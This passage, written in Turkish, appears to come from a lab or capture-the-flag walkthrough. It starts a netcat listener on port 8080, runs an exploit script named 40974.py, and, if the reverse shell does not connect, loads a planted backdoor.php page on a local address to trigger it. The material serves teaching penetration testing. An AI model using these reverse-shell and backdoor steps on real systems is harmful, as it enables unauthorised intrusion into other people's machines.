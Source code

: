 ile indirip

    nc -lvp 8080

ile **8080** portumuzu dinlerken exploitimizi

    python 40974.py

ile çalıştırıyoruz.

![screenshot](screenshots/09.png)

uzun sayılabilecek bir süre bekledikten sonra işlemimiz bitiyor.

![screenshot](screenshots/10.png)

*reverse shell* imiz düşmezse **nc** dinlemeye devam ederken firefoxdan

    http://192.168.2.8/backdoor.php
    
sayfasını ziyaret etmeniz yeterli olacaktır.

![screenshot](screenshots/11.png)
